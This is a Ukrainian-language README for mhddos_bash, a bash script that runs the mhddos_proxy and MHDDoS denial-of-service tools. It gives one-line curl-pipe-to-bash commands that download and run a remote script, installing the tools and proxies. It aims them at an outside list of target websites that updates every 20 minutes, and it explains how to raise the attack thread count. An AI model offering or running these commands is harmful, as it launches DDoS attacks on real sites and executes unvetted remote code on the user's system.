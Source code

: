 ## ❕Опис

### mhddos_bash - скрипт на bash, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

* Запускається однією командою в Linux і WSL2 (Windows Subsystem for Linux). Подальше втручання від користувача не обов'язкове. 
 
```
curl -s https://raw.githubusercontent.com/KarboDuck/mhddos_bash/master/runner.sh | bash
```
* Автоматично встановлює git, python3, pip, mhddos_proxy, MHDDoS, розширений список proxy і всі залежності.

* Праюцює із базою сайтів [Українського женця](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База цілей оновлюється кожні 20 хвилин.

* Під час запуску завжди перевіряє і завантажує оновлення mhddos_proxy і MHDDoS.

Рекомендовано використовувати на Ubuntu 20.04. На інших системах не перевірялось. Можливо буде працювати на всіх Ubuntu починаючи з 18.04, усіх похідних Ubuntu, Debian, та WSL2.

Для зупинки скрипта кілька разів натисніть CTRL+C, або закрийте вікно з терміналом.

## ❕Зміна інтенсивності

Якщо скрипт дуже уповільнює ПК, або навпаки ви маєте невикористані ресурси, можна понизити, або навпаки підвищіти інтенсивність роботи скрипта. Для цього треба керувати параметром `threads`. По замовчуванню `threads = 1000`.

Щоб знизити навантаження на систему, спробуйте використати `threads = 500`

```
curl -s https://raw.githubusercontent.com/KarboDuck/mhddos_bash/master/runner.sh | bash -s -- 500
```

Щоб навантажити систему більше, спробуйте використати `threads = 2000`

```
curl -s https://raw.githubusercontent.com/KarboDuck/mhddos_bash/master/runner.sh | bash -s -- 2000
```
